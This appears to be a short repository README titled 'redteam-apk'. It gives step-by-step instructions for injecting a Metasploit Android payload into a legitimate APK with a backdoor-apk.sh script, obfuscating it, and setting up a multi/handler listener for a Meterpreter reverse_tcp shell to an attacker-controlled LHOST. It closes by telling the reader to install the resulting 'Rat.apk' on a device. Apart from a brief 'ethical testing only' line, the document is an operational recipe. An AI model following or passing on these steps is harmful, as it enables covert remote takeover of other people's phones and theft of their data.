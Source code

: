 # redteam-apk
Begin by ensuring you have Kali Linux or a similar environment setup with tools like msfvenom, dex2jar, unzip, keytool, jarsigner, apktool, ProGuard, Android String Obfuscator (ASO), and Android SDK build-tools (dx, zipalign), installing dependencies with sudo apt update && sudo apt install lib32z1 lib32ncurses5 lib32stdc++6 dex2jar apktool proguard (and sudo gem install bundler && bundle install for ASO), then download and prepare the backdoor-apk.sh script along with the needed files (and make it executable with chmod +x backdoor-apk.sh); next, execute the script with ./backdoor-apk.sh original.apk, responding to prompts for Android payload, LHOST, and LPORT, after which you'll need to setup a Metasploit listener by running msfconsole, then using use exploit/multi/handler, set PAYLOAD android/meterpreter/reverse_tcp, set LHOST <YOUR_KALI_IP>, and set LPORT 4444, finishing with exploit; finally locate the backdoored APK as Rat.apk within the directory, install it on an Android device while allowing installations from unknown sources, and run it, at which point the Metasploit listener should establish a connection, but remember this is for ethical testing only and requires proper permissions, and ensure all dependencies are appropriately configured and that the Android device can communicate with the attacker's machine.

Explanation of how to assemble:

Start with the text above as a single string.

Replace <YOUR_KALI_IP> with your Kali Linux IP address.

Remember this process includes steps before and after the commands.
